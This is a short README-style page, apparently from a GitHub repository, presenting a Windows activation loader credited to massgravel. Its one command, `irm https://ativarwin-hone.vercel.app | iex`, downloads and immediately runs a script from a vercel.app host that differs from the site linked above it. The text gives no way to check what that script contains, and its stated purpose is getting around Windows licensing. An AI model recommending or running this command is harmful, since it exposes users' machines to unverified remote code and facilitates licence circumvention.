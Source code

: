 https://get.activated.win
=================

This repository contains `irm https://ativarwin-hone.vercel.app | iex` loader script.


script by https://github.com/massgravel
